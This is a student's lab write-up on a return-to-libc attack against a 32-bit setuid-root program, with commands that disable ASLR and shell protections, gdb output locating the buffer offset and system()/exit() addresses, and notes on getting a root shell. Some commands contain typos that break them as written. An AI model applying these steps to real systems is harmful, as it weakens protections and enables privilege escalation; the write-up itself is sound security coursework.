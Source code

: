 # LAB6 - Return To LibC Attack and ROP

## Environment
- Ubuntu 16.04 LTS server
- packages : gdb, libc6-dev-i386

## Turning Off Countermeasures
```
$ sudo rm /bin/sh
$ sudo ln -s /bin/zsh /bin/sh

$ sudo sysctl -w kernle.randoize_va_space=0  // ASLR Inactivate
```

### The vulnerable program
```
$ gcc -m32 -fno-stack-protector -z noexecstack -o retlib retlib.c  // non-executable stack
$ sudo chown root retlib
$ sudo chmod 4755 retlib
```

### Task1
```
$ gdb -q retlib
(gdb) b bof
Breakpoint 1 at 0x80484f1: file retlib.c, line 12.
(gdb) run
Starting progrma: 

Breakpoint 1, bof (badfile=0x804b008) at retlib.c:12
12              fread(buffer, sizeof(char), 200, badfile);
(gdb) p $ebp
$1 = (void *) 0xffffd568
(gdb) p &buffer
$2 = (char (*)[12]) 0xffffd554
(gdb) p/d 0xffffd568 - 0xffffd554
$3 = 20
(gdb) cont
Continuing.
Returend Properly
[Inferior 1 (process 1597) exited with code 01]
(gdb) p system
$4 = {<text variable, no debug info>} 0xf7e50950 <system>
(gdb) p exit
$5 = {<text variable, no debug info>} 0xf7e447c0 <exit>
(gdb) quit
```
Using gdb, I got the address of system() and exit().

### Task2
```
$ export MYSHELL=/bin/sh

$ gcc -m32 -o shelladdr shelladdr.c
```
I can find the location of the variable in memory by running the shelladdr program. If address randomization is turned off, the same address is printed.

### Task3
```
$ gcc -m32 -o exploit exploit.c
$ ./exploit
$ ./retlib
```
In return-to-libc attacks, first system() address should overlapped return address and then its argument(/bin/sh in this task) is passed. By putting exit() address between them, on system() return exit() is called and the program doesn’t crash.  
I put the address of MYSHELL environment variable + 6 in &buf[X] to run the exploit program. The value 6 is twice the length difference between the two strings (shelladdr and retlib).  

- Attack Variation 1  
Try the attack without including the address of this function in badfile.  
-> The exit() is not mandatory to get the root shell, but it should get segmentation fault when you exit from the root shell.  

- Attack Variation 2  
Change the file name of retlib to a different name, making usre that the length of the new file name is different.  
-> The address is sensitive to the length of the program name. Thus, segmentation fault occurs since the address of the MYSHELL environment variable has changed.